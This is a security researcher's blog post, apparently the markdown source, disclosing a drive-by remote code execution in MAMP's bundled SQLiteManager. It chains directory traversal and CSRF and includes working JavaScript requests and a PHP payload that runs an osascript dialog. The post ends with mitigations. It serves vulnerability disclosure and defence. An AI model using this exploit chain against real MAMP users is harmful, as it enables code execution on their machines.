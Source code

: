 ```yaml
---
layout: post
title: "Drive-by remote code execution in MAMP"
thumbnail: elephant-240.jpg
date: 2017-07-19
---
```


MAMP is an Apache, MySQL, and PHP stack for Mac OS X. It comes with SQLiteManager, which has several vulnerabilities. This post describes how to exploit these vulnerabilities to execute code when a user of MAMP visits a malicious web site.

This post appeared earlier on [my employers web site](https://www.itsec.nl/en/2017/06/26/drive-by-remote-code-execution-by-mamp/).

## MAMP

MAMP is a web stack that can be installed on Mac OS X. It is typically used by web developers to test the web applications they are working on.
It installs the Apache web server, which runs on port 8888 by default. Also included are some database management programs, such as phpMyAdmin and SQLiteManager.

## SQLiteManager

[SQLiteManager](https://sourceforge.net/projects/sqlitemanager/) is a tool like phpMyAdmin for SQLite databases. It can create new databases, add tables to databases and run SQL queries on them. It has not been updated since 2013 and contains some [known](https://packetstormsecurity.com/files/134272/SQLiteManager-1.2.4-Cross-Site-Scripting.html) [vulnerabilities](http://www.cvedetails.com/vulnerability-list/vendor_id-6201/product_id-10501/year-2008/opec-1/Sqlite-Manager-Sqlite-Manager.html).

### Directory traversal

SQLiteManager can create new databases. An SQLite database is contained in a single file, and when creating the database it is possible to supply the filename for the new database. This file is then created in the directory `/Applications/MAMP/db/sqlite`. However, by adding `../` to the filename we can place the database one directory higher.

We can also use this to get a file containing PHP code in the web root. By supplying a file name like `../../htdocs/script.php`, we can place a file `script.php` in the web root. Then, using SQLiteManager, we create a table and add a row containing our PHP code. The file `script.php` will be a valid SQLite database file, containing PHP code that is run when the file is accessed.

![Create a new database in the webroot with the name script.php](/images/sqlitemanager-create-database.png "Create a new database in the webroot with the name script.php")

![Add PHP code to the file](/images/sqlitemanager-insert-phpcode.png "Add PHP code to the file")

![Accessing the script runs the PHP code](/images/sqlitemanager-run-phpinfo.png "Accessing the script runs the PHP code")

### CSRF

The SQLiteManager running on localhost cannot be accessed directly by an attacker. However, the attacker can "forge" requests if he can run Javascript in the browser. If you visit the attacker's web site he can perform the requests from within the browser, on the same computer that MAMP is installed on. These requests *can* access the SQLiteManager running on localhost. This method of bouncing requests through the victims browser is called cross site request forgery, or CSRF.

SQLiteManager does not have any CSRF protection, so the directory traversal mentioned above can also be executed using CSRF. We can issue POST requests using Javascript to create the database and add data to it, and then issue a request to the resulting file. This makes it possible to run code on a victim that has MAMP installed and enabled when the victim visits a malicious site.

For example, the following Javascript issues a request that creates a database:

    let formData = new FormData();
    formData.append("dbname", "somename");
    formData.append("dbVersion", 3);
    formData.append("dbpath", "../../htdocs/script.php");
    formData.append("action", "saveDb");

    fetch("http://localhost:8888/sqlitemanager/main.php", {
        method: "POST",
        body: formData
    });

After creating a table, we insert a payload:

    let payload = "<?php `osascript -e 'tell application (path to frontmost application as text) to display dialog \"Remote code execution on MAMP\" with icon stop'`; ?>";
    let formData = new FormData();
    formData.append("funcs[test]", "");
    formData.append("valField[test]", payload);
    formData.append("action", "saveElement");
    formData.append("currentPage", "");
    formData.append("after_save", "properties");

    return fetch("http://localhost:8888/sqlitemanager/main.php?dbsel=1&table=test", {
        method: "POST",
        body: formData
    }).catch(e => e);

The `dbsel` number is the number corresponding to the database we just created. Although we don't know this, we can just try all numbers between 0 and 50 and hope that we hit the correct one.

When we trigger a request to the file, the execution of the `osascript` command shows the popup:

![Popup is shown by running code](/images/sqlitemanager-rce-popup.png "Popup is shown by running code")

## Conclusion

By combining CSRF and directory traversal we can trigger remote code execution, if the victim just visits a web site with malicious Javascript. 

An immediate solution to this would be to disable SQLiteManager. MAMP users can do this themselves by editing `/Applications/MAMP/conf/apache/httpd.conf`. Unless someone takes over the maintenance for SQLiteManager, it is unlikely that the vulnerabilities get fixed. MAMP already has an alternative manager for SQLite available: [phpLiteAdmin](https://www.phpliteadmin.org/).

A broader solution is to disallow requests from the public Internet to private RFC1918 IP addresses. There is currently [a proposal](https://wicg.github.io/cors-rfc1918/) to refuse such requests by default, and to create a new CORS headers to explicitly allow it.
